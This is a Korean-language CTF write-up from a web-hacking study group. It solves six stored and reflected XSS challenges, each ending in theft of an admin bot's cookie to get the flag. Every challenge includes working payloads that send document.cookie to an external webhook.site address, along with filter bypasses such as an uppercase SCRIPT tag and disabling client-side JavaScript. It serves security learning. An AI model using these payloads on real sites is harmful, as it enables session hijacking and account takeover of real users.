# 웹 해킹 스터디 10주차 과제: Stored XSS && Reflected XSS

## 개요

- 이 문서는 Stored XSS 및 Reflected XSS 취약점을 활용한 CTF 문제 풀이 기록입니다.
- 주어진 웹 애플리케이션에서 사용자 입력을 처리하는 여러 지점을 탐색하여, 악성 스크립트를 삽입하거나 반영시킬 수 있는 XSS 취약점을 찾아내는 것이 목표입니다.
- 공격 페이로드를 저장하거나 URL에 반영한 뒤, 관리자 봇이 해당 페이지에 접속하도록 유도하여 플래그를 획득합니다.
- 각 XSS 유형별로 페이로드 작성, 관리자 봇 유도 방식, 결과 분석 등을 통해 최종적으로 플래그를 획득하는 것이 본 문제의 핵심입니다.

> **Stored XSS는 악성 스크립트가 서버에 저장되어, 제3자가 해당 페이지에 접속할 때 자동 실행되는 유형이며, Reflected XSS는 악성 스크립트가 URL 등의 요청에 실시간으로 반영되어 즉시 실행되는 유형입니다.**

---

## WEBHOOK 설정

- 관리자의 쿠키 값을 수신하기 위해, `webhook.site`를 활용하여 수신 서버를 구성하였다.
- 공격 페이로드는 해당 WEBHOOK 주소로 관리자의 쿠키 값을 전송하도록 작성할 것이다.



> 위 화면에서 **파란색으로 표시된 부분**은 페이로드에 사용할 webhook 주소이며,
**빨간색으로 표시된 부분**은 관리자가 접속했을 때 전송되는 쿠키 값이 실시간으로 기록되는 영역이다.

---

## CTF 문제 풀이

### XSS 1

- 게시글 작성 기능 중 **제목(title)** 입력란에 XSS 취약점이 존재함을 확인하였다.



- `<script>` 태그가 필터링 없이 그대로 반영되어, **관리자가 해당 페이지를 열람**할 경우, 악성 스크립트가 실행되는 구조이다.

- 이제 `new Image()` 객체를 이용한 페이로드를 삽입하여, 관리자의 쿠키 값을 외부 서버로 탈취할 것이다.

> **Payload 삽입**



```html
<script>new Image().src='https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie='+document.cookie</script>
```

> **게시물 클릭 후 Webhook으로 쿠키 전송**



- 이제 관리자가 해당 게시글을 열람하면 삽입된 JavaScript가 실행되고, `document.cookie` 값을 포함한 요청이 webhook 서버로 전송된다.

- 관리자 봇이 스크립트가 들어간 URL을 클릭하게 만들어, 쿠키를 외부로 보내도록 하겠다.



- 관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도하였고, 이후 Webhook에서 쿠키가 정상적으로 수신되었는지 확인한다.



이렇게 해서 **관리자 쿠키에 포함된 플래그를 탈취하는 데 성공**하였다.

---

### XSS 2

**검색 기능에서 Reflected XSS 취약점 발견**

- 검색 기능에 입력한 값이 서버에서 **필터링 없이 그대로 응답 페이지에 출력됨**을 확인하였다.

```js
');alert('취약');// 
```

- 아래는 해당 페이로드 입력 후, 브라우저에서 `alert()` 창이 실행된 화면이다.



- 이를 이용하여 관리자의 쿠키를 탈취할 수 있다.



```js
');new Image().src='https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie='+document.cookie//
```

- 위 페이로드를 이용해 직접 본인의 쿠키가 외부 서버(Webhook)로 전송되는지 확인 테스트를 수행하였다. 

**결과:**



- 쿠키 값이 정상적으로 수신되는 것을 확인하였다.
이제 동일한 방식으로 **관리자 봇을 이용해 관리자 쿠키를 탈취**할 것 이다.

**관리자 봇을 통하여 쿠키 값 전송**



**결과:**


**관리자 쿠키에 포함된 플래그를 탈취하는 데 성공**하였다.

---

### XSS 3

- `mypage.php`의 `user` 파라미터에 페이로드를 삽입한 결과, 아래와 같이 `alert` 창이 실행되는 것을 확인하였다.



```js
123"/><script>alert(1)</script>
```

- 입력값이 필터링 없이 HTML 문서에 **직접 렌더링(rendered)**되고 있어, **Reflected XSS 취약점이 존재함**을 확인할 수 있다.

**이를 기반으로, 관리자 봇이 스크립트가 포함된 URL에 접근하도록 유도하였다.**

```html
123"/><script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie</script>
```

위 페이로드를 URL에 포함하여, **관리자 봇이 해당 URL에 접속하도록 유도**할 것이다.



**결과:**



최종적으로, **관리자 쿠키에 포함된 플래그를 탈취하는 데 성공**하였다.

---

### XSS 4

- 해당 페이지에서는 `<script>` 및 `alert()` 키워드에 대한 필터링이 존재하였다.

- 그러나 대문자 태그인 `<SCRIPT>`와 `prompt()` 함수를 이용한 페이로드는 우회가 가능하였다.



- 해당 페이로드를 통해 XSS가 정상적으로 **실행되는 것을 확인**할 수 있었다.



**우선, 페이로드가 정상적으로 동작하는지 확인하기 위해 본인의 쿠키 값을 webhook을 통해 전송하는 테스트를 진행하였다.**



```html
<SCRIPT>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="+document.cookie</SCRIPT>
```

- 위와 같이 페이로드를 작성한 후, 해당 URL에 직접 접근하여 스크립트 실행 여부를 확인하였다.



- 페이로드가 정상적으로 동작함을 확인하였다. 이제 이를 이용해 **관리자의 쿠키 값을 탈취**할 것이다.



- 악성 스크립트가 저장된 게시글에 대한 URL을 관리자 봇에게 전달하였다.
이제 접근 시 서버에 저장된 페이로드가 실행된다.

**결과:**



이렇게 **관리자 쿠키를 탈취하는 데 성공**하였다.

---

### XSS 5



- Burp Suite를 이용해 트래픽을 확인한 결과, **입력값에서 `<`, `>` 문자가 필터링되어 HTML 태그가 escape 처리되는 것을 확인**할 수 있었다.

- 하지만 이 필터링은 **브라우저에서 JavaScript가 실행되는 조건에서만 동작**하므로, 수동 접근을 통해 **JavaScript를 비활성화한 상태**로 요청을 전달하면 실제 HTML에 스크립트가 삽입될 수 있다.



- 위는 게시글 작성 직전의 상태이다.



- 이후, `javascript.enabled` 값을 `false`로 설정한 뒤 게시글 작성 페이지로 돌아와 새로고침을 수행하고, 게시글을 등록하였다.



- 이후 해당 게시물을 클릭하면, 삽입한 `alert(1)` 스크립트가 실행되는 것을 확인할 수 있었다.

- 이를 이용하여 관리자의 쿠키를 탈취할 수 있다.

**우선, 악성 스크립트가 정상적으로 실행되는지 확인하고자, 본인의 쿠키를 Webhook에 전송하는 방식으로 사전 테스트를 수행하였다.**

- `javascript.enabled` 값을 `false`로 설정한 뒤 페이로드를 작성한 후 게시글을 등록하였다.



```html
<script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01"+document.cookie</script>
```

**게시글 클릭 후 결과:**



- 페이로드가 정상적으로 동작함을 확인하였고, 이를 이용하여 **관리자의 쿠키 값을 탈취**할 것이다.



**결과:**



최종적으로, **관리자 쿠키에 포함된 플래그를 탈취하는 데 성공**하였다.

---

### XSS 6



- 위와 같이 로그인 시 **아이디를 입력하면 alert 창을 통해 입력한 값이 그대로 출력되는 것을 확인**할 수 있다.

- 따라서 `ID 입력` 칸에 XSS payload를 넣는 방식으로 **스크립트 실행 여부를 테스트**해보았다.



```js
]');alert('취약')//
```

- 위 페이로드를 입력한 결과, **`취약`이라는 메시지를 포함한 alert 창이 정상적으로 출력**되었다.

- 위 취약점을 이용하여 **쿠키를 탈취하는 악성 스크립트를 삽입**할 예정이다.

**일단 페이로드의 정상 작동 여부를 확인하기 위해, 본인의 쿠키 값을 Webhook으로 전송하는 테스트를 먼저 수행하였다.**

- 이번에는 쿠키 값을 수신한 후, 특정 페이지로 리다이렉트하는 방식으로 공격을 진행할 것이다.

```html
]');new+Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie;location.href="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01";//&pw=123123
```

**위와 같이 페이로드를 작성한 후, 실행 결과:**



- 쿠키 전송이 완료되면, 페이로드 내 `location.href`에 의해 사용자는 지정된 페이지로 리다이렉트된다.



- 이후, 위와 같이 쿠키 값이 정상적으로 전송된 것을 확인할 수 있었다.

- 이제 이를 이용해 **관리자의 쿠키 값을 탈취**할 것이다.



**결과:**



이렇게 마지막 문제의 플래그까지 얻을 수 있었다.


